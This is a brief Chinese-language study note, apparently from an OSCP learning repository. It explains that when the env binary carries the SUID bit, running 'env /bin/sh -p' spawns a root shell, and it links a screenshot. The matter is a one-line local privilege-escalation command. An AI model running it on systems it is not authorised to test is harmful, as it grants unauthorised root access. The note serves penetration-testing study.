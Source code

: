 # env

`env` 若具有 `s` 权限，可使用如下命令直接提权至 root 权限：

```
env /bin/sh -p
```

![env](https://github.com/Nongcloud/oscp-Learn/tree/master/Privilege-Escalation/SUID/images/suid-env.png)
